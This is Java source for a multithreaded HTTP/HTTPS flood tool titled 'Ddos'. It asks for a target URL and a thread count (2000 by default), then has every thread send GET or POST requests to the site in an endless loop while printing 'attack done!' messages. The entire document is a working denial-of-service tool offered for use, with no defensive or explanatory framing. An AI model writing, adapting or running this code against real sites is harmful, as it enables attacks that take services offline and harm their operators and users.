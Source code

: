 # Ddos
import java.io.*;
import java.net.*;
import java.util.Scanner;
import java.util.ArrayList;

import javax.net.ssl.HttpsURLConnection;


public class Dos implements Runnable {



    private final String USER_AGENT =   "Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1";

    private static int amount = 0;
    private static String url = "";
    int seq;
    int type;

    public Dos(int seq, int type) {
        this.seq = seq;
        this.type = type;
    }

    public void run() {
        try {
            while (true) {
                switch (this.type) {
                    case 1:
                        postAttack(Dos.url);
                        break;
                    case 2:
                        sslPostAttack(Dos.url);
                        break;
                    case 3:
                        getAttack(Dos.url);
                        break;
                    case 4:
                        sslGetAttack(Dos.url);
                        break;

                }
            }
        } catch (Exception e) {

        }
    }


    public static void main(String[] args) throws Exception {
        String url = "";
        int attakingAmoun = 0;
        Dos dos = new Dos(0, 0);
        Scanner in = new Scanner(System.in);
        System.out.print("Enter Url: ");
        url = in.nextLine();
        System.out.println("\n");
        System.out.println("Starting Attack to url: " + url);

        String[] SUrl = url.split("://");

        System.out.println("Checking connection to Site");
        if (SUrl[0] == "http" || SUrl[0].equals("http")) {
            dos.checkConnection(url);
        } else {
            dos.sslCheckConnection(url);
        }

        System.out.println("Setting DDoS By: Shadow Tak");

        System.out.print("Thread: ");
        String amount = in.nextLine();

        if (amount == null || amount.equals(null) || amount.equals("")) {
            Dos.amount = 2000;
        } else {
            Dos.amount = Integer.parseInt(amount);
        }

        System.out.print("method: ");
        String option = in.nextLine();
        int ioption = 1;
        if (option == "get" || option == "GET") {
            if (SUrl[0] == "http" || SUrl[0].equals("http")) {
                ioption = 3;
            } else {
                ioption = 4;
            }
        } else {
            if (SUrl[0] == "http" || SUrl[0].equals("http")) {
                ioption = 1;
            } else {
                ioption = 2;
            }
        }

        Thread.sleep(2000);


        System.out.println("Starting Attack");
        ArrayList<Thread> threads = new ArrayList<Thread>();
        for (int i = 0; i < Dos.amount; i++) {
            Thread t = new Thread(new Dos(i, ioption));
            t.start();
            threads.add(t);
        }

        for (int i = 0; i < threads.size(); i++) {
            Thread t = threads.get(i);
            try {
                t.join();
            } catch (Exception e) {

            }
        }
        System.out.println("Main Thread ended");
    }

    private void checkConnection(String url) throws Exception {
        System.out.println("Checking Connection");
        URL obj = new URL(url);
        HttpURLConnection con = (HttpURLConnection) obj.openConnection();
        con.setRequestMethod("GET");
        con.setRequestProperty("User-Agent", USER_AGENT);

        int responseCode = con.getResponseCode();
        if (responseCode == 200) {
            System.out.println("Connected to website");
        }
        Dos.url = url;
    }

    private void sslCheckConnection(String url) throws Exception {
        System.out.println("Checking Connection (ssl)");
        URL obj = new URL(url);
        HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();
        con.setRequestMethod("GET");
        con.setRequestProperty("User-Agent", USER_AGENT);

        int responseCode = con.getResponseCode();
        if (responseCode == 200) {
            System.out.println("Connected to website");
        }
        Dos.url = url;
    }

    private void postAttack(String url) throws Exception {
        URL obj = new URL(url);
        HttpURLConnection con = (HttpURLConnection) obj.openConnection();
        con.setRequestMethod("POST");
        con.setRequestProperty("User-Agent", USER_AGENT);
        con.setRequestProperty("Accept-Language", "en-US,en;");
        String urlParameters = "out of memory";

        con.setDoOutput(true);
        DataOutputStream wr = new DataOutputStream(con.getOutputStream());
        wr.writeBytes(urlParameters);
        wr.flush();
        wr.close();
        int responseCode = con.getResponseCode();
        System.out.println("POST attack done!: " + responseCode + "Thread: " + this.seq);
    }

    private void getAttack(String url) throws Exception {
        URL obj = new URL(url);
        HttpURLConnection con = (HttpURLConnection) obj.openConnection();
        con.setRequestMethod("GET");
        con.setRequestProperty("User-Agent", USER_AGENT);

        int responseCode = con.getResponseCode();
        System.out.println("GET attack done!: " + responseCode + "Thread: " + this.seq);
    }

    private void sslPostAttack(String url) throws Exception {
        URL obj = new URL(url);
        HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();
        con.setRequestMethod("GET");
        con.setRequestProperty("User-Agent", USER_AGENT);
        con.setRequestProperty("Accept-Language", "en-US,en;");
        String urlParameters = "out of memory";

        con.setDoOutput(true);
        DataOutputStream wr = new DataOutputStream(con.getOutputStream());
        wr.writeBytes(urlParameters);
        wr.flush();
        wr.close();
        int responseCode = con.getResponseCode();
        System.out.println("GET attack done!:" + responseCode + "Thread: " + this.seq);
    }

    private void sslGetAttack(String url) throws Exception {
        URL obj = new URL(url);
        HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();
        con.setRequestMethod("GET");
        con.setRequestProperty("User-Agent", USER_AGENT);

        int responseCode = con.getResponseCode();
        System.out.println("GET attack done!: " + responseCode + "Thread: " + this.seq);
    }
}
